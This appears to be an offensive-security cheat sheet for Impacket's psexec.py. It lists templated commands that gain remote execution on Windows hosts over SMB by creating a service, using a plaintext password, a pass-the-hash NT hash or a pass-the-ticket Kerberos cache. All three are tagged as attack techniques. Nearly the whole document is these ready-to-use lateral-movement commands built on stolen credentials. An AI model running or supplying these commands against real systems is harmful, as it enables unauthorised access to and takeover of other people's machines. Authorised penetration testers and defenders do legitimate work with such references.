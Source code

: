 # psexec (imp)

%  windows, impacket-exec, RemComSvc

## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py '<domain'>'/'<user>':'<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <nt_hash> <user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache>; psexec.py -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <domain>/<user>@<target_name>
```

